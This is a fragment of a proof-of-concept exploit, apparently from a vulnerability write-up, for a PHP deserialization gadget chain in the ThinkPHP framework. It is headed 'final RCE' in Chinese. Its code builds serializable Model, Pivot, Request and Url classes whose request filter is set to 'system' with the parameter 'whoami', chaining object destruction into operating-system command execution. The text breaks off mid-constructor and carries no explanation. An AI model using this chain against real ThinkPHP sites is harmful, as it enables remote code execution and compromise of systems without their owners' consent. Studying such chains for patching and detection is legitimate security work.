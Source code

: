 最终 RCE

### Poc

```bash
<?php

namespace think {
    abstract class Model
    {
        private $lazySave = true;
        private $data = ['a' => 'b'];
        private $exists = true;
        protected $withEvent = false;
        protected $readonly = ['a'];
        protected $relationWrite;
        private $relation;
        private $origin = [];

        public function __construct($value)
        {
            $this->relation = ['r' => $this];
            $this->origin = ["n" => $value];
            $this->relationWrite = ['r' =>
                ["n" => $value]
            ];
        }
    }

    class App
    {
        protected $request;
    }

    class Request
    {
        protected $mergeParam = true;
        protected $param = ["whoami"];
        protected $filter = "system";
    }
}

namespace think\model {

    use think\Model;

    class Pivot extends Model
    {
    }
}

namespace think\route {

    use think\App;

    class Url
    {
        protected $url = "";
        protected $domain = "domain";
        protected $route;
        protected $app;

        public function __construct($route)
        {
```